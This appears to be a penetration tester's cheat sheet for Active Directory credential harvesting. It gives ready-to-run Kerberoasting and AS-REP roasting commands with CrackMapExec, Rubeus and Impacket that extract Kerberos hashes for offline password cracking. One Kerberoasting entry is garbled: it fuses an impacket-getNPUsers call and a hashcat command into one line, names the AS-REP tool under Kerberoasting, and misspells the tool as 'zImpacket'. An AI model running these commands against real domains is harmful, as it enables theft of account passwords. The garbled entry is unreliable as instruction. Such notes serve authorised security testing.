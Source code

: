 ### Credential Harvesting

#### Kerberoasting

*   **Tool:** \[\[CrackMapExec]]

    ```bash
    crackmapexec ldap <target_ip> -u <username> -p '<password>' --kerberoasting output.txt
    ```

\


*   **Tool:** \[\[Rubeus]]

    ```bash
    rubeus.exe kerberoast
    ```

\


*   **Tool:** \[\[zImpacket-getNPUsers]]

    ```bash
    impacket-getNPUsers -request -dc-ip <target_ip> <domain>/<username>:<password> hashcat -m 13100 <ticket.hash> /path/to/wordlist
    ```
* **Description:** Requests Service Tickets for SPNs and attempts to crack their encryption offline, potentially revealing passwords of service accounts.

#### AS-REP Roasting

* **Tool:** \[\[CrackMapExec]]
*   **Without authentication:**

    ```bash
    crackmapexec ldap <target_ip> -u <username> -p '' --asreproast output.txt
    ```
*   **With authentication:**

    ```bash
    crackmapexec ldap <target_ip> -u <username> -p '<password>' --asreproast output.txt
    ```
*   **Use option `--kdcHost` when the domain name resolution fail:**

    ```bash
    crackmapexec ldap <target_ip> -u <username> -p '<password>' --asreproast output.txt --kdcHost domain_name
    ```

\


*   **Tool:** \[\[Rubeus]], \[\[Impacket]]

    ```bash
    rubeus.exe asreproast
    ```
